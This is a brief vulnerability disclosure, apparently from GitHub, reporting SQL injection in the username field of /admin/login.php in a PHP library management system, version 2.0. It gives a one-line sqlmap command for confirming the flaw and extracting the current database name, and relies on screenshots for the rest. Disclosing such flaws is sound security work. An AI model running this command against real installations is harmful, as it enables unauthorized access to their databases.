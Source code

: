 **Title:** Library Management System In PHP With Source Code (Ver.2.0) /admin/login.php sql Injection 

**Vendor:** Fabian Ros [Library Management System In PHP With Source Code (Ver.2.0) - Source Code & Projects](https://code-projects.org/library-management-system-in-php-with-source-code-ver-2-0/)

**Affected Product Version**: 2.0

**Vulnerability Type**: SQL Injection

**Audit:**

The `username` parameter was concatenated without being sanitized

![image-20250702162509620](./images/image-20250702162509620.png)

**Verify**

![image-20250702153645979](./images/image-20250702153645979.png)

```
 sqlmap -r c.txt -p username  --batch --current-db --flush-session
```



![image-20250702153510438](./images/image-20250702153510438.png)


